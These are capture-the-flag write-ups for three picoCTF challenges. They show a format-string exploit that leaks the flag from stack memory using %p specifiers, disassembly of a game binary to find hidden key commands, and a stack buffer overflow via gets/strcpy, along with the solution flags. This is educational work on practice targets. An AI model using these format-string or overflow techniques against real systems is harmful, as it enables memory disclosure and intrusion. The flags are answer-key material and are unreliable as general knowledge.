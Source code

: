 # Stonks

**Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`

We're given a C source file `vuln.c` and told there's a vulnerability in it. Browsing through it, this code block seems to be the unsafe one

```
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);  ■ Format string is not a string literal (potentially insecure) (fix available)
```

Here, the final `printf` statement is not a literal. My IDE even gives me a warning here. In this, if I use any format specifiers such as `%s`, `%ld` or `%p`, `printf` will treat them as such and then try to access additional information, potentially causing a memory overflow and/or security vulnerabilities.

We're also given a command `nc mercury.picoctf.net 6989` to run the program on the server. We use this method of injecting format specifiers, in it

1. **Using the character sequence specifier `%s`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
```

2. **Using the integer specifier `%d`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d
Buying stonks with token:
137020432134524928134515139-134632064-11137011552-134577904-134631993013701568011370204001370204321868786032206820665981240864987867090118349702208124742331601778542892887344842360115-7470979-134391048-13457708840820224010-136086295-134573888-134634048-134635520-7459304-136149363-134634048134516426-74592920-134492407134524928-134635520-134631904-7459240-134468272-134629232408202240-134635520134524928-7459240134515846137011552-7459260-7459240134515689-134634500
Portfolio as of Fri Nov  3 10:50:09 UTC 2023


1 shares of RRJY
4 shares of GKV
1 shares of KQ
108 shares of LE
18 shares of PQ
81 shares of OL
235 shares of TP
18 shares of LKE
72 shares of MLW
Goodbye!
```

3. **Using the pointer specifier `%p`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio

1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
Buying stonks with token:
0x84c63b00x804b0000x80489c30xf7f68d800xffffffff0x10x84c41600xf7f761100xf7f68dc7(nil)0x84c51800x30x84c63900x84c63b00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x35386130
Portfolio as of Fri Nov  3 11:14:48 UTC 2023


3 shares of LGN
1 shares of PK
22 shares of GM
17 shares of IJV
19 shares of Y
112 shares of PWU
Goodbye!
```

The first attempt gives us nothing, but the second and third give us a sequence of decimals and hexadecimals respectively.

Using the number system converters on [rapidtables](https://www.rapidtables.com/convert/number/), the sequence of decimals seems to give us nothing but meaningless data.

![No data](../Images/dec_to_txt.png)

But for the hexadecimal characters, we get promising results. Cleaning up the hex by removing the digits with a `(nil)` after them and all `0x` indicators except the first one, we get this.

![The result](../Images/hex_to_txt.png)

The flag seems to be, albiet distorted, as `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}`.

It seems every four characters in the flag are reversed. We write some python to take care of this

```
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}"
new_string = ""
tmp = ""

for i in range(len(string)):
    if i % 4 == 0:
        new_string += tmp[::-1]
        tmp = ""

    tmp += string[i]
print(new_string)
```

```
~/Projects $ python3 main.py
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52
```

# babygame01

We're given a connection command to a game with `nc saturn.picoctf.net 55729` and its binary file `game`.

We know we can move the player with the keys 'w', 'a', 's' and 'd'. So we disassemble `game` and look for how a command such as `w` is interpreted.

```
~/Downloads $ objdump -D game | less
```

Searching for the hexadecimal value of 'w' (`0x77`), we find the following instruction

```
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
```

So every keybind in this game is checked using the format `cmp $0xXX,-0xc(%ebp)`, where `XX` is the hexadecimal representation of the key being pressed.

Performing a search for every instruction with the structure above, we get

```
~/Downloads $ objdump -D game | grep 'cmpb.*-0xc(%ebp)'
 804957d:       80 7d f4 6c             cmpb   $0x6c,-0xc(%ebp)
 804958e:       80 7d f4 70             cmpb   $0x70,-0xc(%ebp)
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
 80495d2:       80 7d f4 73             cmpb   $0x73,-0xc(%ebp)
 80495e7:       80 7d f4 61             cmpb   $0x61,-0xc(%ebp)
 80495fe:       80 7d f4 64             cmpb   $0x64,-0xc(%ebp)
```

So we get the hex values for the possible keybinds as `0x6c`, `0x70`, `0x77`, `0x73`, `0x61` and `0x64`. Converting them to ASCII leads to the following possible keybinds being discovered

| Hex    | ASCII |
|--------|-------|
| `0x6c` | l     |
| `0x70` | p     |
| `0x77` | w     |
| `0x73` | s     |
| `0x61` | a     |
| `0x64` | d     |

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

Here, we have a simple piece of C code that we need to overflow. The relevant code is this

```
#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
printf("%s\n", flag);
fflush(stdout);
exit(1);
}

void vuln(char *input){
char buf2[16];
strcpy(buf2, input);
}

int main(int argc, char **argv){

FILE *f = fopen("flag.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'flag.txt' in this directory with your",
"own debugging flag.\n");
exit(0);
}

fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler); // Set up signal handler

gid_t gid = getegid();
setresgid(gid, gid, gid);


printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
}
```

Here, an input of just over 20 characters is enough for it to overflow and give us the flag.

```
~ $ nc saturn.picoctf.net 64712
Input: gbBPmxz01LIlqUWhRTPD
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
